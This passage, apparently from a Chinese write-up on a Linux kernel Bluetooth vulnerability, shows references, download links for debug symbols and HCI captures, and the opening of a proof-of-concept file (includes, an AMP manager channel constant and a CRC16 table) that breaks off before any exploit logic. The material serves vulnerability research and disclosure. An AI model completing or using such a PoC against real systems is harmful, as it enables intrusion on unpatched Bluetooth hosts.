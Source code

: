 [4] [Ubuntu内核源码调试方法（双机调试）](https://bbs.pediy.com/thread-249192.htm)

[5]《深入Linux内核架构》Wolfgang Mauerer著

[6]《Bluetooth Essential for Programmers》

[7]《BLUETOOTH SPECIFICATION Version 4.2 》

# **八. 附录**

### **1. 资源下载**

[1]  [内核符号文件及源码下载](https://launchpad.net/ubuntu/groovy/amd64/linux-image-unsigned-5.4.0-42-generic-dbgsym/5.4.0-42.46)

[2] [HCI数据](https://pan.baidu.com/s/1i86sskp4DvBc5dQVOnEdSQ)   密码: un90

### **2. PoC.c**

```c
# poc.c 
# Compiled with command “gcc -o poc poc.c -lbluetooth”
#
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/uio.h>
#include <bluetooth/bluetooth.h>
#include <bluetooth/l2cap.h>
#include <bluetooth/hci.h>
#include <bluetooth/hci_lib.h>
#define AMP_MGR_CID 0x03
 
static uint16_t crc16_tab[256] = {
    0x0000, 0xc0c1, 0xc181, 0x0140, 0xc301, 0x03c0, 0x0280, 0xc241,
    0xc601, 0x06c0, 0x0780, 0xc741, 0x0500, 0xc5c1, 0xc481, 0x0440,
    0xcc01, 0x0cc0, 0x0d80, 0xcd41, 0x0f00, 0xcfc1, 0xce81, 0x0e40,
    0x0a00, 0xcac1, 0xcb81, 0x0b40, 0xc901, 0x09c0, 0x0880, 0xc841,
    0xd801, 0x18c0, 0x1980, 0xd941, 0x1b00, 0xdbc1, 0xda81, 0x1a40,
    0x1e00, 0xdec1, 0xdf81, 0x1f40, 0xdd01, 0x1dc0, 0x1c80, 0xdc41,
    0x1400, 0xd4c1, 0xd581, 0x1540, 0xd701, 0x17c0, 0x1680, 0xd641,
    0xd201, 0x12c0, 0x1380, 0xd341, 0x1100, 0xd1c1, 0xd081, 0x1040,
    0xf001, 0x30c0, 0x3180, 0xf141, 0x3300, 0xf3c1, 0xf281, 0x3240,
    0x3600, 0xf6c1, 0xf781, 0x3740, 0xf501, 0x35c0, 0x3480, 0xf441,
    0x3c00, 0xfcc1, 0xfd81, 0x3d40, 0xff01, 0x3fc0, 0x3e80, 0xfe41,
    0xfa01, 0x3ac0, 0x3b80, 0xfb41, 0x3900, 0xf9c1, 0xf881, 0x3840,
    0x2800, 0xe8c1, 0xe981, 0x2940, 0xeb01, 0x2bc0, 0x2a80, 0xea41,
    0xee01, 0x2ec0, 0x2f80, 0xef41, 0x2d00, 0xedc1, 0xec81, 0x2c40,
    0xe401, 0x24c0, 0x2580, 0xe541, 0x2700, 0xe7c1, 0xe681, 0x2640,
    0x2200, 0xe2c1, 0xe381, 0x2340, 0xe101, 0x21c0, 0x2080, 0xe041,
    0xa001, 0x60c0, 0x6180, 0xa141, 0x6300, 0xa3c1, 0xa281, 0x6240,
    0x6600, 0xa6c1, 0xa781, 0x6740, 0xa501, 0x65c0, 0x6480, 0xa441,
    0x6c00, 0xacc1, 0xad81, 0x6d40, 0xaf01, 0x6fc0, 0x6e80, 0xae41,
    0xaa01, 0x6ac0, 0x6b80, 0xab41, 0x6900, 0xa9c1, 0xa881, 0x6840,
    0x7800, 0xb8c1, 0xb981, 0x7940, 0xbb01, 0x7bc0, 0x7a80, 0xba41,
    0xbe01, 0x7ec0, 0x7f80, 0xbf41, 0x7d00, 0xbdc1, 0xbc81, 0x7c40,
    0xb401, 0x74c0, 0x7580, 0xb541, 0x7700, 0xb7c1, 0xb681, 0x7640,
    0x7200, 0xb2c1, 0xb381, 0x7340, 0xb101, 0x71c0, 0x7080, 0xb041,
    0x5000, 0x90c1, 0x9181, 0x5140, 0x9301, 0x53c0, 0x5280, 0x9241,
    0x9601, 0x56c0, 0x5780, 0x9741, 0x5500, 0x95c1, 0x9481, 0x5440,
    0x9c01, 0x5cc0, 0x5d80, 0x9d41, 0x5f00, 0x9fc1, 0x9e81, 0x5e40,
    0x5a00, 0x9ac1, 0x9b81, 0x5b40, 0x9901, 0x59c0, 0x5880, 0x9841,
    0x8801, 0x48c0, 0x4980, 0x8941, 0x4b00, 0x8bc1, 0x8a81, 0x4a40,
    0x4e00, 0x8ec1, 0x8f81, 0x4f40, 0x8d01, 0x4dc0, 0x4c80, 0x8c41,
    0x4400, 0x84c1, 0x8581, 0x4540, 0x8701, 0x47c0, 0x4680, 0x8641,
```